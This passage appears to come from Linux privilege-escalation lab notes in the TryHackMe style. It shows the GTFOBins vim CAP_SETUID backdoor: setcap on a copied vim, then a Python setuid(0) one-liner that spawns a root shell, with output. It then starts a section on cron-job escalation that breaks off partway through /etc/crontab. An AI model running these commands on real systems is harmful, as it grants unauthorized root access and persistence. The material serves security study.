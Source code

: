 If the binary has the Linux CAP\_SETUID capability set or it is executed by another binary with the capability set, it can be used as a backdoor to maintain privileged access by manipulating its own process UID. This requires that vim is compiled with Python support. Prepend :py3 for Python 3. cp $(which vim) . sudo setcap cap\_setuid+ep vim ./vim -c ':py import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'

* vim does not have the SUID bit set.
  * Capability attack vector is not discoverable when looking for SUID.

ls -l /usr/bin/vim

lrwxrwxrwx 1 root root 21 Oct 26 2020 /usr/bin/vim -> /etc/alternatives/vim

ls -l /home/karen/vim

\-rwxr-xr-x 1 root root 2906824 Jun 18 2021 /home/karen/vim

* Leverage GTFObins command.

./vim -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'

* Root shell is launched.

\# id

uid=0(root) gid=1001(karen) groups=1001(karen)

### **Privilege Escalation: Cron Jobs** <a href="#gq2194uk2bdt" id="gq2194uk2bdt"></a>

* Cron jobs are used to run scripts or binaries at specific times.
* Run with the privilege of their owner by default.
* If a scheduled task that runs with root privileges can be changed (ideally to a shell) then this is a privilege escalation vector.
* Configurations stored as crontabs (cron tables).
  * Determines next time and date task will run.
* Every user has their own crontab file.
* Any user can read a system-wide cron jobs file.

cat /etc/crontab

\# /etc/crontab: system-wide crontab

\# Unlike any other crontab you don't have to run the \`crontab'

\# command to install the new version when you edit this file

\# and files in /etc/cron.d. These files also have username fields,

\# that none of the other crontabs do.

SHELL=/bin/sh

PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

\# Example of job definition:

\# .---------------- minute (0 - 59)

\# | .------------- hour (0 - 23)
